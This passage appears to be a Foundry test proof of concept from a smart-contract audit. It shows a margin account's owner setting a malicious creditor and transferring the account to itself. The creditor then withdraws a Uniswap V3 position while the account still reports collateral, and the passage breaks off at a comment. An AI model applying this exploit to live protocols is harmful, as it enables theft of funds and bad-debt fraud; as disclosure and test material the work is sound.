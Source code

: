 ```solidity
        uint256 tokenId = addLiquidity(pool, liquidity, users.accountOwner, tickLower, tickUpper, false);

        // Balance pool after mint
        uint256 amountDaiAfter = DAI.balanceOf(address(pool));
        uint256 amountWethAfter = WETH.balanceOf(address(pool));

        // Amounts deposited in the pool.
        uint256 amountDai = amountDaiAfter - amountDaiBefore;
        uint256 amountWeth = amountWethAfter - amountWethBefore;

        // Precision oracles up to % -> need to deposit at least 1000 tokens or rounding errors lead to bigger errors.
        vm.assume(amountDai + amountWeth > 100);

        // Deposit the Liquidity Position.
        {
            address[] memory assetAddress = new address[](1);
            assetAddress[0] = address(NONFUNGIBLE_POSITION_MANAGER);

            uint256[] memory assetId = new uint256[](1);
            assetId[0] = tokenId;

            uint256[] memory assetAmount = new uint256[](1);
            assetAmount[0] = 1;
            vm.startPrank(users.accountOwner);
            ERC721(address(NONFUNGIBLE_POSITION_MANAGER)).approve(address(proxyAccount), tokenId);
            proxyAccount.deposit(assetAddress, assetId, assetAmount);
            vm.stopPrank();
        }

        vm.startPrank(users.accountOwner);
        // exploit starts: user adds malicious creditor to keep the "hook" after the account transfer
        proxyAccount.openMarginAccount(address(maliciousCreditor));

        // avoid any cooldowns
        uint256 time = block.timestamp;
        vm.warp(time + 1 days);

        // transfer the account to itself
        factory.safeTransferFrom(users.accountOwner, address(proxyAccount), address(proxyAccount));
        vm.stopPrank();
        assertEq(proxyAccount.owner(), address(proxyAccount));

        vm.startPrank(users.creatorAddress);

        // from the malicous creditor set earlier, start a flashActionByCreditor which withdraws the univ3lp as a "transferFromOwner"
        maliciousCreditor.doFlashActionByCreditor(address(proxyAccount), tokenId, address(NONFUNGIBLE_POSITION_MANAGER));
        vm.stopPrank();

        // univ3lp changed ownership to the malicious creditor
        assertEq(ERC721(address(NONFUNGIBLE_POSITION_MANAGER)).ownerOf(tokenId), address(maliciousCreditor));
        assertEq(ERC721(address(NONFUNGIBLE_POSITION_MANAGER)).balanceOf(address(proxyAccount)), 0);

        // account still shows it has a collateral value
        assertGt(proxyAccount.getCollateralValue(), 0);

        // univ3lp is still accounted for in the account
```